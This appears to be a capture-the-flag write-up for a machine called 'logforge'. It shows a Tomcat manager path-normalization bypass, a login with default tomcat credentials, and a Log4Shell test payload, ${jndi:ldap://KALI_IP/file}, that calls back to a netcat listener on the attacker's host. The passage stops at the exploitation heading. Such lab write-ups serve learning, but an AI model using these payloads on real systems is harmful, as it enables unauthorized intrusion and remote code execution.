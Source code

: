 Notice that it is running Apache 2.4.41 AND Tomcat/9.0.31

# Tomcat Login

This server has some misconfigurations that made it vulnerable to a tenquie described in a talk titled "Breaking Parser Logic" by Orange Tsai. https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

If I go to the site and type `http://10.10.11.138/test/..;/manager/html` I get prompted by a login. The default creds of `tomcat;tomcat` gets me in

# Testing for Log4Shell

The name of this machine is logforge and the a new vulnerability name "log4Shell" just came out so I'm assuming that one of these fields is being logged and is vulnerable.

Log4j is a Java-based framework that makes it easy to store logs and information's. There is a vulnerability called "Log4Shell" that allows attackers to execute arbitrary Java code on a server or other computer, or leak sensitive information.

To test for this vulnerability I went through and put a test string of `${jndi:ldap://KALI_IP/file}` into different fields to see if it would get logged & exploited. If the server is vulnerable it will connect back to kali and request `file`. It doesnt matter what is there as we are just testing to see if we get a connection

To set up and test use netcat to listen on port 389
`nc -lvnp 389`

Then supply `${jndi:ldap://KALI_IP/file}` into input fields and see if anything connects back

I was able to get a connection (meaning its vulnerable)
![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/3.png)

![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/3.1.png)

# Exploiting Log4Shell
